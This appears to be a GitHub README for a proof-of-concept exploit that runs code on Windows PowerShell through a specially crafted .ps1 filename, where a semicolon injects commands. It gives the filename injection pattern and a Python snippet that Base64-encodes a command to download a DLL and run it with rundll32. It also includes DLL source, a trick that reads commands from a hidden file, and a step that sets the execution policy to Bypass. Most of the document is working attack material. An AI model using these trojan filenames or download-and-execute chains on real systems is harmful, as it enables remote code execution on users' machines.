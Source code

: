 # PSTrojanFile
Windows PowerShell Filename Code Execution POC

Since it still works, I dusted off and made minor improvements: <br> 
1) Execute a remote DLL using rundll32
2) Execute an unintended secondary PS1 script or local text-file (can be hidden)
3) Updated the PS1 Trojan Filename Creator Python3 Script

First reported to Microsoft back in 2019 yet remains unfixed as of the time of this writing. <br>  
Remote code execution via a specially crafted filename. <br>  

The flaw is due to semicolon ";" we can decode a Base64 command and execute straight from the PS1 filename or just exec commands.

Test;POweRsHeLL -e [BASE64 UTF-16LE PAYLOAD];.ps1 <br>  

Call commands straight away <br>  

"Testing;saps (gc -) PoC;.ps1"

Vectors: double click, drag and drop to PS shortcut

Leverages alternate shorthand PS commands like "saps", "gc" start a process and get-content etc.

DLL Execution Example: <br>  
=======================
Create a trojan PS1 file that will try to download and execute a remote DLL named "1.d"

Python: <br>  
from base64 import b64encode <br>  

b64encode("saps  http[]//127.0.0.1/1.d;sleep -s 2;rundll32 $HOME\\Downloads\\1.d, 0".encode('UTF-16LE')) <br>  

cwBhAHAAcwAgACAAaAB0AHQAcAA6AC8ALwAxADIANwAuADAALgAwAC4AMQAvADEALgBkADsAcwBsAGUAZQBwACAALQBzACAAMgA7AHIAdQBuAGQAbABsADMAMgAgACQASABPAE0ARQBcAEQAbwB3AG4AbABvAGEAZABzAFwAMQAuAGQALAAgADAA

DLL Code: <br>  

#include <windows.h> <br> 

//gcc -shared -o mydll.dll mydll.c -m32 <br>  

//hyp3rlinx <br>  

void evilo(void){ <br>  

MessageBox(0,"Filename Remote Code Execution PoC\r\nBy hyp3rlinx","M$ Windows PowerShell",1); <br>  

} <br>  

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved){ <br>  

evilo(); <br>  

return 0; <br>  

} <br>  


python -m http.server 80

Double click the trojan PS1 file. <br>  


Text-file Code Execution Example: <br> 
======================================

Create a PS1 file with name including saps "start a process" and gc "get-content", this will read commands from hidden file. <br>  

"Test;saps (gc -) PoC;.ps1" <br>  

Create hidden: attrib +s +h "-" <br>  

Double click or drag and drop.

Requirements: <br>  
=====================

a) PowerShell PS1 files must be set to open with PowerShell as the default program <br>  

b) Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force <br>  

c) User must double-click, run from cmd line or drag and drop the maliciously named PS1 script <br>  

Video PoC:

![PSTrojanFile](https://github.com/hyp3rlinx/PSTrojanFile/assets/12366009/28846bd1-a8c6-48c6-8764-e95d8644520f)


